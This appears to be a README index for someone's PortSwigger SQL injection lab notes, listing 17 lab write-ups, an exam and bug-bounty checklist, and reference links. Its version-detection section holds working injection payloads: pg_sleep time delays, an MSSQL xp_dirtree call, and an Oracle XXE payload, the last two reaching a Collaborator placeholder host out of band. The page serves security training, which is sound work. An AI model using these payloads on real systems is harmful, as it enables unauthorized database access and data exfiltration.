 # [SQL injection](https://portswigger.net/web-security/sql-injection)

## Lab

- apprentice:
  - [1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](./lab/1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md)
    - postgresql (based on time delay)
  - [2. SQL injection vulnerability allowing login bypass](./lab/2.%20SQL%20injection%20vulnerability%20allowing%20login%20bypass.md)
    - postgresql (based on time delay)
- practitioner:
  - [3. SQL injection UNION attack, determining the number of columns returned by the query](./lab/3.%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md)
    - postgresql (based on time delay)
  - [4. SQL injection UNION attack, finding a column containing text](./lab/4.%20SQL%20injection%20UNION%20attack%2C%20finding%20a%20column%20containing%20text.md)
    - postgresql (based on time delay)
  - [5. SQL injection UNION attack, retrieving data from other tables](./lab/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md)
    - postgresql (based on time delay)
  - [6. SQL injection UNION attack, retrieving multiple values in a single column](./lab/6.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column.md)
    - postgresql (based on time delay)
  - [7. SQL injection attack, querying the database type and version on Oracle](./lab/7.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [8. SQL injection attack, querying the database type and version on MySQL and Microsoft](./lab/8.%20SQL%20injection%20attack%2C%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft.md)
    - mssql (require space after double dash)
  - [9. SQL injection attack, listing the database contents on non-Oracle databases](./lab/9.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20non-Oracle%20databases.md)
    - postgresql (based on time delay)
  - [10. SQL injection attack, listing the database contents on Oracle](./lab/10.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle.md)
    - oracle (require FROM dual)
  - [11. Blind SQL injection with conditional responses](./lab/11.%20Blind%20SQL%20injection%20with%20conditional%20responses.md)
    - postgresql (based on time delay)
  - [12. Blind SQL injection with conditional errors](./lab/12.%20Blind%20SQL%20injection%20with%20conditional%20errors.md)
    - oracle
  - [13. Blind SQL injection with time delays](./lab/13.%20Blind%20SQL%20injection%20with%20time%20delays.md)
    - postgresql (based on time delay)
  - [14. Blind SQL injection with time delays and information retrieval](./lab/14.%20Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval.md)
  - [15. Blind SQL injection with out-of-band interaction](./lab/15.%20Blind%20SQL%20injection%20with%20out-of-band%20interaction.md)
    - oracle (oob interaction)
  - [16. Blind SQL injection with out-of-band data exfiltration](./lab/16.%20Blind%20SQL%20injection%20with%20out-of-band%20data%20exfiltration.md)
  - [17. SQL injection with filter bypass via XML encoding](./lab/17.%20SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding.md)

## Version detection

server synchronous (time delay):

- mssql:
- mysql:
- postgresql

  ```sql
  '||pg_sleep(10)--
  ```

  ```sql
  ';SELECT NULL from pg_sleep(10)--
  ```

- oracle:

  ```sql
  
  ```

server asynchronous (out of band):

- mssql (maybe)

  ```sql
  ';exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'-- 
  ```

- mysql
- postgresql

- oracle:

  ```sql
  'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//collaborator/">+%25remote%3b]>'),'/l')+FROM+dual--;
  ```

## Preparation for exam (bug bounty too)

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- determine version
- blind or not
- find number of columns return by query
- check columns data type

- if blind
  - time delay check
  - time delay data retrieval
  - conditional response: compare reponse
  - conditional error: compare status code
  - oob interaction
  - oob data exfiltration

## References

[Union attack](https://portswigger.net/web-security/sql-injection/union-attacks)

[cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[examining the db](https://portswigger.net/web-security/sql-injection/examining-the-database)
